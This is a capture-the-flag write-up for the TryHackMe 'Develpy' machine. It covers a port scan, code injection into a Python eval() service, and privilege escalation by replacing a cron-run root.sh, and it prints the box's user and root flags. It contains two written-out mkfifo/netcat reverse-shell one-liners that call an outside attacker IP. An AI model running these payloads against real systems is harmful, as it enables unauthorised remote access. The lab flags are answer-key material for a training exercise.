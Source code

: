 # Develpy Writeup

Today I am going to solve *Develpy* box on *THM* 
## Step 1:

Lets first find out about open ports

```
PORT      STATE SERVICE           REASON  VERSION
22/tcp    open  ssh               syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDeAB1tAGCfeGkiBXodMGeCc6prI2xaWz/fNRhwusVEujBTQ1BdY3BqPHNf1JLGhqts1anfY9ydt0N1cdAEv3L16vH2cis+34jyek3d+TVp+oBLztNWY5Yfcv/3uRcy5yyZsKjMz+wyribpEFlbpvscrVYfI2Crtm5CgcaSwqDDtc1doeABJ9t3iSv+7MKBdWJ9N3xd/oTfI0fEOdIp8M568A1/CJEQINFPVu1txC/HTiY4jmVkNf6+JyJfFqshRMpFq2YmUi6GulwzWQONmbTyxqrZg2y+y2q1AuFeritRg9vvkBInW0x18FS8KLdy5ohoXgeoWsznpR1J/BzkNfap
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDGGFFv4aQm/+j6R2Vsg96zpBowtu0/pkUxksqjTqKhAFtHla6LE0BRJtSYgmm8+ItlKHjJX8DNYylnNDG+Ol/U=
|   256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbypBoQ33EbivAc05LqKzxLsJrTgXOrXG7qG/RoO30K
10000/tcp open  snet-sensor-mgmt? syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL: 
|     Private 0days
|_    Please enther number of exploits to send??:

```


## Step 2:

Lets try to connect to port 10000 by *netcat*

```
nc <I.P> 10000
```
![](https://i.imgur.com/JWVyVI7.png)

On entering different inputs like *3+1* it showing result of 4 , that means our port is running a python script using *eval()*
We can try to input malacious script from [revshell](https://www.revshells.com/) 

![](https://i.imgur.com/VxoVTNQ.png)

lets input in form of python script

```__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.67.68 9001 >/tmp/f')```

![](https://i.imgur.com/8mMQZUh.png)


lets connect to it by *nc -lnvp 9001*

![](https://i.imgur.com/ViGnVGE.png)

## Step 3:

we can directly cat user.txt file

![](https://i.imgur.com/G1Kexbd.png)


### user.txt : cf85ff769cfaaa721758949bf870b019

## Step 4:

Lets go and see which cronjobs are running on system

```
king@ubuntu:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
```

In *kings* directory *root* is running a script "root.sh" ,
and we can read root.sh , So we can perform privilage escalation simply by removing present *root.sh* and placing our new *root.sh* , with reverse shell .

```
king@ubuntu:~$ rm root.sh
rm root.sh
king@ubuntu:~$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.67.68 9005 >/tmp/f' > root.sh
</f|sh -i 2>&1|nc 10.4.67.68 9005 >/tmp/f' > root.sh                         
king@ubuntu:~$ 

```

Finally We get ,

![](https://i.imgur.com/3EvJ20v.png)


Lets open root.txt

```
# cat /root/root.txt
9c37646777a53910a347f387dce025ec

```

### root.txt : 9c37646777a53910a347f387dce025ec




#### Thanks to everyone for reading my Writeup on *Develpy*


